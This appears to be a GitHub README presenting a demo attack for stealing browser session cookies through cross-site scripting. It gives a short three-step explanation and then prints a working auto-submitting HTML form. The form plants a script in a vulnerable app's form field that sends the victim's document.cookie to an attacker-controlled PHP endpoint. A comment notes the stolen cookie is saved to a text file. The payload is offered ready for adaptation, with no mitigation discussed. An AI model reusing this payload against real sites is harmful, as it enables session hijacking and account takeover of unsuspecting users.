 ## Session-Stealing-Using-XSS ##

# This is a demo application to steal cookie stored at the client side i.e. in the browser #

*The Process* 
1. First consider there is an vulnerable application hosted at Server A
2. The attacker will send his payload to the victim which is hosted at Server B(Attacker's Server)
3. The Victim will click on the payload and while his session with the legitimate application is going on which is hosted at Serve A, his cookies will be fetched and passed to the attacker's server i.e. server B.

the payload is passed within the form value:


 <><body onload="document.myForm.submit()">

 <><form method="GET" action="http://vulnerableapp.com" name="myForm">

 <><input type=hidden name="firstname"  value="<script>document.location='http://attackerserver.com/cookiesteal.php?c='+document.cookie; <></script>"/>
 <><input type=hidden name="lastname"  value="hello hacker"/>
 <><input type=hidden name="form"  value="submit"/>

 <><!-- this is a autosubmit form with two parameters. you can modify the parameters according to the need.
 <>In the form action parameter, address of the XSS vunerable application is passed.

 <>In the payload i.e. the first input parameter attacker server's location is passed where the stealed cookie will be passed to a php
 <>file and further write in a txt file-->
 <></form>
